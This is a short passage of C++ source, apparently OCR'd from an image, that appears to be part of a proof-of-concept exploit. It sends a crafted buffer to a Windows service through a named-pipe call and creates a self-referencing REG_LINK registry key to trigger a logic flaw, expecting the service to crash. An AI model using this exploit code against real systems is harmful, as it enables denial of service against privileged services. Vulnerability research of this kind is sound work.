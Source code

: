 ```C++

	DWORD dwSize = 4 + strlen(szSourceKey) + strlen(szDestKey) + 2 + 4;


	CallPipeFunction(0x1003E, (PBYTE)pData, dwSize, NULL, 0);
}

int wmain(int argc, wchar_t** argv)
{
	printf("Creating a REG_LINK in the registry for us to delete.\r\n");
	SetupRegistry();

	printf("Deleting the self-referencing registry link\r\nExpecting service to crash\r\n");
	Vuln_LogicFlaw_RMov();
}
```